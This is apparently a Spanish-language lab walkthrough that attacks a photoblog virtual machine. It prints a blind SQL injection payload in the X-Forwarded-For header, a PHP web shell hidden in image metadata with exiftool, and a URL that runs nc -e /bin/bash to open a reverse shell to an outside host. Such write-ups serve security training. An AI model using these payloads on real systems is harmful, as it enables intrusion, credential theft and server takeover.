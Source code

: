 ```yaml
---
layout: post
title: From QSL to Shell II
subtitle: "From QSL to Shell II"
tag: [python,SQLi]
---
```


## Puertos abiertos

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture
MAC Address: 00:0C:29:B5:03:7F (VMware)
```

## Servicio web 80

![web](../assets/imgs/pl/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -t 200 -c -r
[...]
.hta                    [Status: 403, Size: 169, Words: 4, Lines: 8]
.htaccess               [Status: 403, Size: 169, Words: 4, Lines: 8]
.htpasswd               [Status: 403, Size: 169, Words: 4, Lines: 8]
                        [Status: 200, Size: 1367, Words: 389, Lines: 72]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
index.php               [Status: 200, Size: 1367, Words: 389, Lines: 72]
```

Además de los métoos `GET`, `POST` y las `cookies`, hay otros valores que son susceptibles a las inyecciones SQL. En este caso particular se centrará en el valor **X-Forwarded-For** que utiliza el servidor para determinar la IP de un usuario cuando la aplicación está detrás de un proxy inverso.

Podemos probar si este valor es vulnerable creando una solicitud `HTTP GET` al servidor e inyectando SQL directamente en este valor. Usaré la explotación basada en el tiempo para probar la vulnerabilidad midiendo el tiempo de respuesta de la solicitud GET.

Desde `BurpSuite` se visualizará mejor el PoC de la inyección.

Header vulnerable: `X-Forwarded-For: test'or sleep(3)-- -`

![burp](../assets/imgs/pl/burp.png)

Entonces crearé unos scripts para obtener los datos a travéz de SQL a ciegas.

### Obtener base de datos

[ddbb.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/database.py)

![database](../assets/imgs/pl/database.png)

### Obtener tablas

[tablas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/tablas.py)

```
[◢] Payload: test' or IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='photoblog' LIMIT 7,1),3,1)=BINARY(0x76),sleep(3),1)-- -
[+] Tabla [0]: categorie
[+] Tabla [1]: pictures
[+] Tabla [2]: stats
[+] Tabla [3]
[+] Tabla [4]
[+] Tabla [5]
[+] Tabla [6]
[ ] Tabla [7]
[-] Saliendo
```

### Obtener columnas

[columnas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/columnas.py)

![columnas](../assets/imgs/pl/columnas.png)

### Obtener registros

[regitros](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/registros.py)

![registro](../assets/imgs/pl/registro.png)

Obteniendo la contraseña del usuario administrador

![crack](../assets/imgs/pl/crack.png)
admin :: P4ssw0rd

Después de estar logueado como usuario `admin` encuentro una opción donde se permite la subida de imágenes pero sólo con extensiones `jpg,png o gif`.

Inyecto código `php` con la herramienta `exiftool`.
```
❯ exiftool -Comment="<?php system(\$_GET['cmd']); ?>" shell.png
```

Visualizando la metadata de la imágen

```
❯ exiftool img.jpg
[...]
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php system($_GET['c']); ?>
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
[...]
```

### Usuario www-data

`http://192.168.0.100/admin/uploads/1632603690.png/c.php?c=nc%20-e%20/bin/bash%20192.168.0.107%204444`

![shell](../assets/imgs/pl/shell.png)


